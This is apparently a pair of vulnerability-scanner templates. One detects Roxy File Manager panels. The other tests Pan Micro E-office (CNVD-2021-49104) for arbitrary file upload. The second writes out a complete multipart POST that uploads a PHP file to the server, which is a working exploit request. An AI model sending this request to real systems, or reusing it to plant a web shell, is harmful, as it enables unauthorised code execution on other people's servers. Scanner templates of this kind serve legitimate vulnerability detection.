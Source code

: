 # Roxy File Manager - Panel Detect

## Description

- Roxy File Manager panel was detected.
- severity - info
- tags - tech,fileupload,roxy,fileman

## Requests

- Method - GET

### URL

- {{BaseURL}}/index.html
- {{BaseURL}}/fileman/index.html
- {{BaseURL}}/fileman/php/fileslist.php
- {{BaseURL}}/fileman/asp_net/main.ashx

### Matchers

**Type - word**

- part - body
- words
  1. Roxy file manager
  2. [{"p":"
- condition - or

**Type - status**

- status
  1. 200

---

# Pan Micro E-office File Uploads

## Description

- The Pan Wei Micro E-office version running allows arbitrary file uploads from a remote attacker.
- severity - critical
- tags - pan,micro,cnvd,cnvd2021,fileupload,intrusive

## Requests

### Step - 1

```
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="{{randstr}}.php"
Content-Type: image/jpeg

<?php echo md5('CNVD-2021-49104');?>

--e64bdf16c554bbc109cecef6451c26a4--

```
